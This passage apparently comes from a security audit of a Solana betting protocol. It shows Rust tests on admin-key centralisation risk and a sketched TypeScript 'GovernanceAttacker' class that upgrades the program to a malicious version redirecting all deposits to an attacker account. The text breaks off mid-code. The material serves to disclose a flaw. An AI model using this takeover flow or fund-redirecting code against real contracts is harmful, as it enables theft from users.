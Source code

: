 ```rust

        // Admin sets destructive parameters
        let ctx = create_update_parameters_context(admin, program_state);

        let result = update_parameters(
            ctx,
            10000, // 100% fee rate - makes protocol unusable
            0      // Max bet of 0 - prevents all games
        );

        assert!(result.is_ok());
        assert_eq!(program_state.fee_rate, 10000);
        assert_eq!(program_state.max_bet_amount, 0);

        // Protocol is now economically destroyed
    }

    #[test]
    fn test_single_point_of_failure() {
        // If admin key is compromised, entire protocol is compromised
        let compromised_admin_key = get_compromised_admin_key();

        // Attacker can now:
        // 1. Pause the protocol
        // 2. Change all parameters
        // 3. Withdraw all funds
        // 4. Upgrade to malicious program
        // 5. Complete protocol takeover

        assert!(can_pause_protocol(compromised_admin_key));
        assert!(can_change_parameters(compromised_admin_key));
        assert!(can_withdraw_funds(compromised_admin_key));
        assert!(can_upgrade_program(compromised_admin_key));
    }
}
```

### Real-World Attack Implementation
```typescript
class GovernanceAttacker {
    private compromisedAdminKey: Keypair;

    async executeProtocolTakeover(): Promise<void> {
        // 1. Deploy malicious program version
        const maliciousProgram = await this.deployMaliciousProgram();

        // 2. Upgrade protocol to malicious version
        await this.upgradeProgram(maliciousProgram);

        // 3. Malicious program now controls all funds
        await this.extractAllFunds();
    }

    async deployMaliciousProgram(): Promise<PublicKey> {
        // Create program that redirects all funds to attacker
        const maliciousCode = `
            pub fn join_user_handler(ctx: Context<JoinUser>) -> Result<()> {
                // Redirect all deposits to attacker
                token::transfer(
                    cpi_ctx,
                    amount,
                    attacker_account // All funds go to attacker!
                )?;
```